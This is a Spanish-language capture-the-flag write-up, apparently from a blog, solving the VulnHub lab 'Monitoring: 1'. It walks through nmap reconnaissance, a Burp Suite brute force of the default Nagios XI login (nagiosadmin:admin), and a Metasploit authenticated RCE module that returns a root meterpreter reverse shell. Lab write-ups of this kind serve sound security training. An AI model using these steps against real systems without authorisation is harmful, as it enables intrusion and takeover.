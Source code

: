 ```yaml
---
layout: post
title: Writeup Monitoring 1
date: 02-12-2024
categories: [Writeup, Vulnhub]
tag: [default-user, burp-suite]
image: /assets/images/monitoring-1/featured_image_monitoring.jpg
alt: portada de WriteUp Monitoring
---
```



En este post te llevo paso a paso por la máquina Monitoring: 1, un desafío de nivel fácil disponible en VulnHub. 

Diseñada para quienes desean mejorar en el pentesting

## Resolucion de la maquina

### Fase de Fingerprinting / Reconocimiento (Reconnaissance):

#### Descubrimiento de IP objetivo en la red

Lanzo `sudo netdiscover -i eth0 -r 192.168.88.0/24` para descubrir los hosts en la red

![alt text](../assets/images/monitoring-1/image.png)

Una vez obtenida la IP de la maquina objetivo la guardo en la variable IP.

```sh
export IP=192.168.88.11
```

Lanzo un escaneo con nmap para ver los puertos que tiene disponible.

```sh
nmap -p- $IP 
```

![alt text](../assets/images/monitoring-1/image-3.png)

```sh
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
389/tcp  open  ldap
443/tcp  open  https
5667/tcp open  unknown
```

Voy a redirigir esta salida a awk y grep para obtener una lista separada por comas para poder exportarla a la variable PORTS y despues usarla en el scaneo detallado.

```sh
nmap -p- $IP | awk '{print $1}' | grep -E '^[0-9]+' | cut -d'/' -f1 | paste -sd, - > puertos.txt
cat puertos.txt   
export PORTS=22,25,80,389,443,5667
```

![alt text](../assets/images/monitoring-1/image-4.png)

Ahora usando la variable PORTS realizo un escaneo en mas profundidad.

```sh
sudo nmap -p$PORTS -sS -sV -sC $IP -O -oA scan_nmap_$IP
```

![alt text](../assets/images/monitoring-1/image-5.png)

#### Descubrimiento de puertos y servicios en el host objetivo

Resultado de la exploracion de los servicios en los puertos detectados:

##### Puerto 22 - SSH

```txt
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b8:8c:40:f6:5f:2a:8b:f7:92:a8:81:4b:bb:59:6d:02 (RSA)
|   256 e7:bb:11:c1:2e:cd:39:91:68:4e:aa:01:f6:de:e6:19 (ECDSA)
|_  256 0f:8e:28:a7:b7:1d:60:bf:a6:2b:dd:a3:6d:d1:4e:a4 (ED25519)
```

##### Puerto 25 - SMTP

```txt
PORT     STATE SERVICE    VERSION
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-09-08T17:59:00
|_Not valid after:  2030-09-06T17:59:00
|_ssl-date: TLS randomness does not represent time
```

##### Puerto 80 - HTTP

```txt
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

##### Puerto 389 - LDAP

```txt
PORT     STATE SERVICE    VERSION
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
```

##### Puerto 443 - HTTPS

```txt
PORT     STATE SERVICE    VERSION
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-09-08T18:28:08
|_Not valid after:  2030-09-06T18:28:08
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.18 (Ubuntu)
| tls-alpn: 
|_  http/1.1
|_http-title: Nagios XI
```

##### Puerto 5667

```txt
PORT     STATE SERVICE    VERSION
5667/tcp open  tcpwrapped

```
##### Informacion general de la maquina

```txt
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
```

### Fase de Footprinting / Exploración (Scanning):

#### Exploracion puerto 80

Realizo una exploracion visual de la web que sirve el puerto 80 que me lleva a una pagina de bienvenida que me da el acceso a **Nagios XI**

![alt text](../assets/images/monitoring-1/image-6.png)

Accedo y llego a una pagina donde hay un formulario de acceso y algo de informacion nada relevante.

![alt text](../assets/images/monitoring-1/image-7.png)

Como no conozco este servicio Nagios en nada, consulto en Google si tiene usuario predeterminado. Obtengo de esta forma que el usuario predeterminado es nagiosadmin y que la clave se define en el primer acceso al sitio.

![alt text](../assets/images/monitoring-1/image-12.png)

Si el administrador de la maquina no ha tenido cuidado con este detalle deshabilitando el usuario por defecto es probable que pueda atacarlo con un ataque de fuerza bruta y quizas obtener acceso. 

Para este ataque uso Burp-Suite, defino un ataque de tipo cluster bomb para usar el payload 1 como username y el payload 2 como password. 

![alt text](../assets/images/monitoring-1/image-11.png)

En el payload 1 defino como usuario **nagiosadmin**

![alt text](../assets/images/monitoring-1/image-9.png)

En el payload 2 cargo un diccionario basico de claves **unix_password.txt** 

![alt text](../assets/images/monitoring-1/image-10.png)

A continuacion lanzo el ataque y veo que en la primera de las claves probadas el valor de length es diferente por mucho a los demas. Lo que me indica que es una clave valida.

![alt text](../assets/images/monitoring-1/image-8.png)

Compruebo las credenciales **[nagiosadmin:admin]** y obtengo acceso al sistema Nagios. 

![alt text](../assets/images/monitoring-1/image-13.png)

Una vez dentro veo que el sistema me da informacion sobre su version

![alt text](../assets/images/monitoring-1/image-14.png)

### Explotación

Para explotar el sistema usare metasploit. 

Busco en metasploit vulnerabilidades conocidas para **nagios xi** mediante el comando:

```sh
search nagios xi
```

![alt text](../assets/images/monitoring-1/image-16.png)

Selecciono el modulo nagios_xi_authenticated_rce y defino los valores necesarios despues de consultarlos en options.

```sh
use exploit/linux/http/nagios_xi_authenticated_rce
options
set password admin
set LHOST 192.168.88.3
exploit
```

Esto nos da una sesion de meterpreter.

![alt text](../assets/images/monitoring-1/image-17.png)

Si consulto que usuario tengo en la sesion de meterpreter, me devuelve que tengo el usuario root. 

![alt text](../assets/images/monitoring-1/image-18.png)

Con este usuario puedo acceder a la carpeta /root/ y leer el fichero proof.txt para obtener la flag de solucion de la maquina.




